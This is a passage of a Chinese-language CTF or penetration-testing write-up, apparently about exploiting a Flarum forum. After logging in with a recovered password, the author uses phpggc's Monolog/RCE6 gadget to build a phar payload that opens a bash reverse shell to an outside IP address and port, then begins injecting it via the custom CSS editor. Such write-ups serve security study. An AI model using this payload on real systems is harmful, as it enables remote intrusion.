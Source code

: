 得到密码`1chris`

而后进入后台

[![](assets/1706846898-3e57d8505f215bf2f92802157dad9c8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213734-e3e9858c-c03d-1.png)

发现是`Flarum`主题，搜索相关漏洞发现[https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html](https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html)

而后按部就班即可

## 漏洞利用

借助`phpggc`工具生成反弹 Shell 语句

```bash
php -d phar.readonly=0 phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/119.3.215.198/7776 0>&1'"
```

[![](assets/1706846898-81a7a3bbf4e48ae52bc2377b42ee9d9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131213906-1b15d646-c03e-1.png)

点击`外观->自定义样式->编辑自定义CSS`
